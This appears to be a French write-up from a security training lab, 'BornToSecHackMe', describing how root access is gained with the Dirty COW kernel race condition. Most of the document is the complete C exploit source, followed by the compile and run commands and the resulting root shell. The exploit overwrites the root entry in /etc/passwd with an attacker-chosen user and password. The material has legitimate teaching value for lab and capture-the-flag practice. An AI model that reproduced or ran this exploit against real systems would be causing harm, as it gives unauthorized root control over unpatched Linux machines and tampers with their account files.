 # Dirtycow

On cherche à savoir sur quelle version de **Kernel** on est :
<pre><code>> uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 athlon i386 GNU/Linux
</code></pre>

On cherche sur *https://www.exploit-db.com* un exploit valable pour notre version de **Kernel**.

On trouve un exploit nommé **dirtycow** qui est basé sur une **race-condition-vulnerabilty** :

<pre>Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)</pre>

On se connecte en **ssh** à n'importe quel user (zaz ici), et on créé le fichier **dirty.c** : 
<pre><code>//
// This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
//
// To use this exploit modify the user values according to your needs.
//   The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
//   https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
// https://firefart.at
//

#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "firefart";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = "%s:%s:%d:%d:%s:%s:%s\n";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
  int i, c = 0;
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
  printf("madvise %d\n\n", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
    printf("File %s already exists! Please delete it and run again\n",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, "r");
  if(source == NULL) {
    return -1;
  }
  target = fopen(to, "w");
  if(target == NULL) {
     fclose(source);
     return -1;
  }

  while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf("%s successfully backed up to %s\n",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "firefart";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf("Please enter the new password: %s\n", plaintext_pw);
  } else {
    plaintext_pw = getpass("Please enter the new password: ");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf("Complete line:\n%s\n", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf("mmap: %lx\n",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
    }
    printf("ptrace %d\n",c);
  }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf("Done! Check %s to see if the new user was created.\n", filename);
  printf("You can log in with the username '%s' and the password '%s'.\n\n",
    user.username, plaintext_pw);
    printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
    backup_filename, filename);
  return 0;
}
</code></pre>

On compile et éxecute :
<pre><code>> gcc -pthread dirty.c -o dirty -lcrypt
> ./dirty test
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: test
Complete line:
firefart:fi6bS9A.C7BDQ:0:0:pwned:/root:/bin/bash

mmap: b7fda000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
zaz@BornToSecHackMe:~$ madvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

</code></pre>

On se connecte au nouvel user avec les ids :

<code>firefart</code>
<code>test</code>

<pre><code>su firefart
Password:
firefart@BornToSecHackMe:/home/zaz#
</code></pre>

Nous obtenons un terminal avec les droits **root** :
<pre><code>> id
uid=0(firefart) gid=0(root) groups=0(root)
</code></pre>
